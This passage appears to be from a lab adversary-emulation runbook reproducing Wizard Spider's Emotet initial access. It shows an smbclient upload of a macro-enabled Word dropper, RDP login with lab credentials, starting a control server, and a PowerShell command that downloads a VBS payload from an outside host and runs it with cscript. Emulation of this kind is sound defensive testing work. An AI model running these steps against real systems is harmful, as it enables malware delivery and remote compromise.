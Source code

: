 ```bash
smbclient -U 'oz\judy' //10.0.0.7/C$ -c "put wizard_spider/Resources/Emotet_Dropper/ChristmasCard.docm Users/judy/Desktop\ChristmasCard.docm;" "Passw0rd!"
```

Start the control server from your terminator terminal.

```bash
cd ~/wizard_spider/Resources/control_server
sudo ./controlServer
```

Open a new terminal tab (ctrl-shift-T); double click the terminal tab and rename it to "RDP to Dorothy"

RDP into Dorothy / 10.0.0.7 as user Judy:

```
xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

1. Open outlook if its not already open, log in to Office account if not already logged in

2. Open the ChristmasCard.docm document on the desktop; enable macros when prompted.

3. You should see a terminal flash; wait for it to execute the Emotet DLL.

4. Go back to your control server tab; you should have a new callback.

5. Take a screenshot of your new session, and paste in the vendor slack channel.

```bash
# Emotet has sent Microsoft Word documents with embedded macros that will invoke scripts to download additional payloads. [6][13][2][8][12]
```
[Source Code - Dropper Word Document](https://github.com/attackevals/wizard_spider/tree/main/Resources/Emotet_Dropper)

[Source Code - Emotet DLL](https://github.com/attackevals/wizard_spider/tree/main/Resources/Emotet)


<br>

`For testing without MS Office; be aware that this is not identical to the Word document implementation - the process lineage and file paths change significantly with this method.`

Open PowerShell and run:

```
Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/adb.txt -OutFile $env:AppData\adb.vbs
```

```bash
# Wizard Spider has used HTTP for network communications.[5]

cscript.exe $env:AppData\adb.vbs
```

### :microscope: Cited Intelligence

* https://documents.trendmicro.com/assets/white_papers/ExploringEmotetsActivities_Final.pdf
